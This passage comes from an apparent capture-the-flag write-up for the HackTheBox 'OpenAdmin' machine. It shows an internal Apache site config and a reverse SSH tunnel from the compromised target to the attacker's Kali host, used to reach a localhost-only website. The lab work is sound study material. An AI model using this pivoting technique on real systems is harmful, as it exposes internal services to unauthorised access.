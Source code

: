 ![user5](./openadmin/user5.png)

`/etc/apache2/sites-available/internal.conf` has the following content:

```
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Hmmm... So the `/var/www/internal` website is being served at `127.0.0.1:52846`. Start a remote port foward to connect to this website from Kali:

- **NOTE:** connecting to Kali on port 22 did not work (likely a target firewall rule?). However, moving SSH to a higher port worked.

```bash
# on kali, change SSH server to run on a higher port
# Port 22
# Port 9999 <--- add this line
sudo vim /etc/ssh/sshd_config
sudo systemctl restart sshd
# on target, connect to Kali SSH server
ssh -f -N -p 9999 -R 127.0.0.1:11111:127.0.0.1:52846 user@10.10.14.27
# on kali, browse to website
firefox http;//127.0.0.1:11111
```
